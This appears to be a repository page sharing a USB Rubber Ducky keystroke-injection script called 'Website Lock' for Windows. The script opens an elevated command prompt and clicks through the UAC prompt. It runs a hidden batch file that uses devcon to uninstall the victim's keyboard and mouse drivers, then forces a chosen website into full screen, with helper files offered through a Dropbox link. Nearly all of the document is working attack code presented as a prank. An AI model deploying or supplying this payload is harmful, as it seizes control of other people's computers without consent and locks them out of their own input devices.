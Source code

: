 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
	REM Title: Website Lock
	REM Author: Audiack
	REM Target Ducky Encoder: 2.6.2
	REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
	REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
	REM Info:
	REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
	REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
	REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
	REM     Make sure the files are in the root of a drive called DUCKY.
	REM     Twin duck works well with this. It is what I used when I was testing it. 
	REM File Descriptions:
	REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
	REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
	REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
	REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11